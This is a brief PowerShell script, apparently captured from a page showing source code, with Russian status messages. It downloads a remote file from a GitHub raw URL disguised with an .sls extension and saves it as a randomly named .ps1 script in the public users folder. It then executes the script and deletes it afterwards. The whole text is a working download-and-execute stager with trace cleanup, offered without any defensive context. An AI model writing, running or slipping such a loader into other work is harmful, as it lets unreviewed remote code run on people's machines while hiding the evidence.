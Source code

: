 $url = "raw.githubusercontent.com/robotinsideus12/trust/refs/heads/main/try.sls"


$randomFileName = (Get-Random).ToString() + ".ps1"
$filePath = Join-Path -Path "C:\Users\Public" -ChildPath $randomFileName

Write-Host "Временный файл будет создан по пути: $filePath"

try {
    # SAVE
    Invoke-RestMethod -Uri $url | Set-Content -Path $filePath

    # 3. START
    & $filePath
    
    Write-Host "Скрипт успешно выполнен."
}
catch {
    # ERR
    Write-Error "Произошла ошибка: $($_.Exception.Message)"
}
finally {
    # 4. DEL
    if (Test-Path $filePath) {
        Remove-Item $filePath
        Write-Host "tmp '$filePath' del."
    }
}
